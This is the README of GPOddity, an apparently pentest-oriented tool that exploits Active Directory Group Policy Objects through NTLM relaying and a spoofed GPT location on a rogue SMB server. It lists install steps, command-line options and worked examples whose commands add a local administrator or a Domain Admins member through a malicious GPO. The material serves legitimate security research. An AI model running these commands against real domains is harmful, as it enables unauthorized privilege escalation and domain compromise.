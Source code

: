 # GPOddity
The GPOddity project, aiming at automating GPO attack vectors through NTLM relaying (and more).

For more details regarding the attack and a demonstration on how to use the tool, see the associated article available at:
https://www.synacktiv.com/publications/gpoddity-exploiting-active-directory-gpos-through-ntlm-relaying-and-more

# Installation

## Pipx

You can install GPOddity through pipx with the following command:

```
$ python3 -m pipx install git+https://github.com/synacktiv/GPOddity
```

## Manual

Alternatively, you can install GPOddity manually by cloning the repository and installing the dependencies:

```
$ git clone https://github.com/synacktiv/GPOddity
$ python3 -m pip install -r requirements.txt
```

# Usage

```
$ python3 gpoddity.py --help
                                                                                                                                                                                                
 Usage: gpoddity.py [OPTIONS]                                                                                                                                                                   
                                                                                                                                                                                                
╭─ Options ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ --help          Show this message and exit.                                                                                                                                                  │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─ General options ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ *  --domain            TEXT  The target domain [default: None] [required]                                                                                                                    │
│ *  --gpo-id            TEXT  The GPO object GUID without enclosing brackets (for instance, '1328149E-EF37-4E07-AC9E-E35920AD2F59') [default: None] [required]                                │
│ *  --username          TEXT  The username of the user having write permissions on the GPO AD object. This may be a machine account (for instance, 'SRV01$') [default: None] [required]       │
│    --password          TEXT  The password of the user having write permissions on the GPO AD object [default: None]                                                                          │
│    --hash              TEXT  The NTLM hash of the user having write permissions on the GPO AD object, with the format 'LM:NT' [default: None]                                                │
│    --dc-ip             TEXT  [Optional] The IP of the domain controller if the domain name can not be resolved. [default: None]                                                              │
│    --ldaps                   [Optional] Use LDAPS on port 636 instead of LDAP                                                                                                                │
│    --verbose                 [Optional] Enable verbose output                                                                                                                                │
│    --just-clean              [Optional] Only perform cleaning action from the values specified in the file of the --clean-file flag. May be useful to clean up in case of incomplete         │
│                              exploitation or ungraceful exit                                                                                                                                 │
│    --clean-file        TEXT  [Optional] The file from the 'cleaning/' folder containing the values to restore when using --just-clean flag. Relative path from GPOddity install folder, or   │
│                              absolute path                                                                                                                                                   │
│                              [default: None]                                                                                                                                                 │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─ Malicious Group Policy Template generation options ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ --command           TEXT             The command that should be executed through the malicious GPO [default: None]                                                                           │
│ --powershell                         [Optional] Use powershell instead of cmd for command execution                                                                                          │
│ --gpo-type          [user|computer]  [Optional] The type of GPO that we are targeting. Can either be 'user' or 'computer' [default: computer]                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─ Group Policy Template location spoofing options ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ --rogue-smbserver-ip           TEXT  The IP address or DNS name of the server that will host the spoofed malicious GPO. If using the GPOddity smb server, this should be the IP address of   │
│                                      the current host on the internal network (for instance, 192.168.58.101)                                                                                 │
│                                      [default: None]                                                                                                                                         │
│ --rogue-smbserver-share        TEXT  The name of the share that will serve the spoofed malicious GPO (for instance, 'synacktiv'). If you are running the embedded SMB server, do NOT provide │
│                                      names including 'SYSVOL' or 'NETLOGON' (protected by UNC path hardening by default)                                                                     │
│                                      [default: None]                                                                                                                                         │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─ SMB server options ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ --machine-name        TEXT                       [Optional] The name of a valid domain machine account, that will be used to perform Netlogon authentication (for instance, SRV01$). If      │
│                                                  omitted, will use the user specified with the --username option, and assume that it is a valid machine account                              │
│                                                  [default: None]                                                                                                                             │
│ --machine-pass        TEXT                       [Optional] The password of the machine account if specified with --machine-name [default: None]                                             │
│ --machine-hash        TEXT                       [Optional] The NTLM hash of the machine account if specified with --machine-name, with the format 'LM:NT' [default: None]                   │
│ --comment             TEXT                       [Optional] Share's comment to display when asked for shares [default: None]                                                                 │
│ --interface           TEXT                       [Optional] The interface on which the GPOddity smb server should listen [default: 0.0.0.0]                                                  │
│ --port                TEXT                       [Optional] The port on which the GPOddity smb server should listen [default: 445]                                                           │
│ --smb-mode            [embedded|forwarded|none]  [Optional] 'Embedded' SMB server will host an SMB server on this machine. 'Forwarded' will forward SMB traffic to a fake Domain Controller  │
│                                                  (requires a machine account associated with a DNS record pointing to the attacker machine. Generated GPT should be uploaded on the fake     │
│                                                  DC). 'None' will not host any SMB server (generated GPT should be uploaded on a writable SMB share in the domain)                           │
│                                                  [default: embedded]                                                                                                                         │
│ --empty-gpo                                      [Optional] By default, GPOddity will clone the target GPO and add a malicious immediate task. If this flag is specified, an empty GPO will  │
│                                                  be used instead of a clone of the legitimate one (can be useful for some edge cases in which immediate tasks will not integrate well with   │
│                                                  existing GPOs)                                                                                                                              │
│ --attacker-ip         TEXT                       [Optional] The IP of the attacker machine in the internal network (required for smb-mode 'forwarded')                                       │
│ --forwarded-ip        TEXT                       [Optional] The IP of the fake DC to which SMB traffic will be forwarded (required for smb-mode 'forwarded')                                 │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
```

# Examples

Below are some example commands taken from the article linked above.

> Exploiting a Computer GPO to add a local administrator. SMB mode is 'embedded': GPOddity will host the GPT on its embedded SMB server.
```
$ python3 gpoddity.py --gpo-id '46993522-7D77-4B59-9B77-F82082DE9D81' --domain 'corp.com' --username 'GPODDITY$' \
--password '[...]' --command 'net user synacktiv_gpoddity Password123! /add && net localgroup administrators synacktiv_gpoddity /add' \
--rogue-smbserver-ip '192.168.58.101' --rogue-smbserver-share 'synacktiv'
```


> Exploiting a User GPO to add a local administrator. SMB mode is 'none': GPOddity will create the malicious GPT, and you will then have to upload it to a writable domain share
```
$ python3 gpoddity.py --gpo-id '7B36419B-B566-46FA-A7B7-58CA9030A604' --gpo-type 'user' --smb-mode 'none' --domain 'corp.com' --username 'GPODDITY$' \
--password '[...]' --command 'net user user_gpo Password123! /add /domain && net group "Domain Admins" user_gpo /ADD /DOMAIN' \
 --rogue-smbserver-ip '192.168.58.102' --rogue-smbserver-share 'synacktiv'
```

> Exploiting a User GPO to add a local administrator. SMB mode is 'forwarded': you will have to add a DNS record pointing to GPOddity's machine, associated with a machine account. You will have to provide the IP address of a fake DC whose password is synchronized with the machine account, and upload the malicious GPT to said fake DC. For more information about this mode, see my Black Alps 2024 talk (available soon).
```
$ python3 gpoddity.py --gpo-id 'B12968FB-EEEE-404A-A583-101A2E249BF9' --domain 'corp.com' --username 'lowpriv' \
--password '[...]' --command 'whoami > C:\poc_forwarded.txt' --gpo-type 'user' --rogue-smbserver-ip 'gpoddity.corp.com' \
--rogue-smbserver-share 'synacktiv' --smb-mode 'forwarded' --attacker-ip '192.168.123.16' --forwarded-ip '192.168.125.245'
```

# About cleaning

One of the advantages of using GPOddity resides in the possibility to safely exploit GPOs, without altering legitimate GPT files, thus minimizing disruption risks in production environments. However, GPOddity still has to modify some attributes of the Group Policy Container files in order to temporarily spoof the GPT location. As a result, ensuring that the production environment remains functional supposes to revert those changes after exploitation.

By default and as explained in the article, GPOddity will do it for you by reverting any alteration performed on the GPC at the end of the exploit, when the user interrupts the program with CTRL+C. As a result, in standard conditions, you do not need to do anything to ensure everything is cleaned up.

However, if for some reason you are not able to exit GPOddity gracefully through a CTRL+C (process killed, network connection lost etc.), you can launch GPOddity with the '--just-clean' flag to perform cleaning actions in an independent manner.

This feature works in the following way. Each time GPOddity is run, the initial state of the GPO will be saved in a file under the path `cleaning/[GPO ID]/[timestamp].txt`. You can then restore all the values contained in this save file through the '--just-clean' flag. For instance, assume that you want to restore all the attributes of the GPO with ID '46993522-7D77-4B59-9B77-F82082DE9D81' to their values before running GPOddity on the 14th October 2023 at 08:08:44. You may run the following command:

```
$ python3 gpoddity.py --just-clean --domain 'corp.com' --gpo-id '46993522-7D77-4B59-9B77-F82082DE9D81' --username 'GPODDITY$' --password '[...]' --clean-file cleaning/46993522-7D77-4B59-9B77-F82082DE9D81/2023_10_14-08_08_44.txt
```

# Video demonstration

![GPOddity](assets/demo.gif)
